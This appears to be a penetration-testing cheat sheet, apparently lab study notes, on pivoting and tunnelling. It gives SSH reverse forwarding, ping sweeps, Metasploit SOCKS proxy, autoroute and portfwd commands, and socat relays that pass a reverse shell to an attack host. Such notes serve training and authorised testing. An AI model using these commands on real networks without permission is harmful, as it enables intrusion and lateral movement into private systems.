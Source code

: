 {% highlight bash %}
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
{% endhighlight %}



##Meterpreter Tunneling & Port Forwarding

{% highlight bash %}
# Ping sweep with various methods
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23 # MSF
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done # Linux
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply" # cmd
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"} # Powershell

# Set up SOCKS proxy with MSF
use auxiliary/server/socks_proxy
socks4 	127.0.0.1 9050 # Add line to conf file
# START THE PROXY AND SET TO 4a

# Use autoroute for pivoting 
use post/multi/manage/autoroute
run autoroute -s 172.16.5.0/23 # Add route
run autoroute -p # List active routes

# Create local forward from MSF
portfwd add -l 3300 -p 3389 -r 172.16.5.19
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18 # Reverse
{% endhighlight %}

## Using Socat

{% highlight bash %}
# Redirect reverse shell to attack host (forwards packets to attack host)
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

# Redirect bind shell to attack host (forward packets to Windows Host)
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
{% endhighlight %}

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/d69cc998-d7f5-465e-82fe-61fba8605685/Untitled/w=1920,quality=80)
